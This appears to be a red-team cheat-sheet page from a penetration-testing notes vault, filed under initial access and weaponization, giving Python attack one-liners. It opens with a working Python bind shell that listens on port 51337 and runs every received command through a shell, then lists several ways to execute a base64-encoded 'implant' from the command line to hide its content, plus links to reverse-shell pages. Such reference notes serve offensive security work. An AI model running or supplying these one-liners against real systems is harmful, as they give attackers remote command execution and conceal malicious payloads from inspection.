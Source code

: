 # Python

## 01 - Bind Shell

```
> python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## 02 - Base64 encoded one-line from CLI

Encode the python implant.

```
$ basenc -w 0 implant.py
```

Single quote

```
> python -c 'exec "<base64_payload>".decode("base64")'
```

Double quote

```
> python -c "exec '<base64_payload>'.decode('base64')"

> python -c "exec( __import__('base64').decodestring('<base64_payload>'))"

> python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b, 'UTF-8')}[sys.version_info[0]]('<base64_payload>')))"
```

One-line Base64 (ANSI-C Quoting)

```
> python -c $'exec \'<base64_payload>\'.decode(\'base64\')'
```

One-line Base64

```
> python -c "exec \"<base64_payload>\".decode(\"base64\")"
```

Heredoc Base64

```
$ python - <<EOF
exec '<base64_payload>'.decode('base64')
EOF

$ python - <<EOF
exec "<base64_payload>".decode("base64")
EOF
```

---
## References

### Reverse Shells

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Windows/Reverse Shells/Python|One-Liners: Windows Python Reverse Shells]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Reverse Shells/Python|One-Liners: Linux Python Reverse Shells]]

### Bind Shells

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Bind Shells/Python|One-Liners: Linux Python Bind Shells]]

### Resources

- [don't code me on that: Python Reverse Shells](https://medium.com/dont-code-me-on-that/bunch-of-shells-python-b3fb1400b823)

- [PuckieStyle: Python one-line b64 Shellcode](https://www.puckiestyle.nl/python-one-line-shellcode/)